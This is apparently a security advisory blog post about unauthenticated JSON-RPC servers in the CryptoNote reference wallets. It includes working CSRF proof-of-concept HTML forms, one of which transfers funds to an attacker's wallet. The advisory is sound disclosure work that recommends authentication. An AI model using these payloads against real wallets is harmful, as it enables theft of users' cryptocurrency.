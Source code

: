 ```yaml
---
layout: post
title: Unauthenticated JSON-RPC API allows takeover of CryptoNote RPC wallets
---
```


![Cryptonote-img]({{ site.url }}/assets/CryptoNote_OnFire_200s.gif){: .center-image }

The reference implementation of CryptoNote wallets start a JSON-RPC server
listening on a localhost port that allows an attacker to execute wallet
functions due to a lack of authentication.

An attacker may exploit this vulnerability to steal cryptocurrency from
vulnerable wallets by directing users to visit a webpage hosting the exploit.

# Affected Software

All cryptocurrencies that use the reference CryptoNote walletd and simplewallet
implementations are vulnerable. Notable coins include Bytecoin and Aeon.

# Description

The reference CryptoNote repository comes with two different wallets,
`simplewallet` and `walletd`. Both wallets have JSON-RPC servers that are
vulnerable to similar attacks. Even though the JSON-RPC servers are listening
on localhost, they can be exploited via CSRF.

## walletd

`walletd` has the JSON-RPC server enabled by default. The wallet binds to port
8070 by default.

The below proof-of-concept demonstrates the vulnerability by creating a new
address in the walletd container.

```
<html>
<form action=http://127.0.0.1:8070/json_rpc method=post enctype="text/plain" >
	<input name='{"params":{},"jsonrpc":"2.0","method":"createAddress", "ignore_me":"' value='test"}'type='hidden'>
<input type=submit>
</form>
</html>
```

## simplewallet

`simplewallet` does not have the JSON-RPC server enabled by default. Enabling
the server requires the `--rpc-bind-port` flag when invoking `simplewallet`.

The below proof-of-concept demonstrates the vulnerability by making a transfer
from the running wallet to an attacker controlled wallet. Change the
INSERT_AMOUNT and INSERT_WALLET_ADDRESS parameters when testing the POC. We
assume that `simplewallet` was invoked with `--rpc-bind-port 8111`.

```
<html>
<form action=http://127.0.0.1:8111 method=post enctype="text/plain" >
        <input name='{"jsonrpc":"2.0","method":"transfer","params":{"destinations":[{"amount":INSERT_AMOUNT,"address":"INSERT_WALLET_ADDRESS"}],"fee":100,"mixin":0,"unlock_time":0}, "ignore_me":"' value='test"}'type='hidden'>
<input type=submit>
</form>
</html>
```

## Notes on exploitation

While the proof-of-concept code assumes that the server is listening on a
specific port, changing the running port does prevent exploitation. It is
trivial to enumerate open ports with WebSocket.

The proof-of-concept uses a HTML form to demonstrate the attack. However,
exploiting this over Javascript is not an issue due to a lack of CSRF
protection.

# Vendor Response

Attempts have been made to reach out to the CryptoNote and Bytecoin developers
without any success.

Turtlecoin has patched the issue by adding authentication in
[commit 4949e91][turtlecoin-commit].

Aeon has acknowledged the report and is not currently implementing a fix as
they are in the process of rebasing their code. There is minimal risk to Aeon
as `simplewallet` is not used in RPC mode for any official clients.

# Recommended Fix

The JSON-RPC servers should be patched to require authentication on every
request. It is recommended that all forks of CryptoNote and ByteCoin apply
a patch similar to the Turtlecoin fix.

# Credits

This issue was discovered by Ayrx.

Shoutout to @tildalwave for the GIF!

[turtlecoin-commit]: https://github.com/turtlecoin/turtlecoin/commit/4949e91e09bc1d16132090aef4dc09cc6ca09fa1
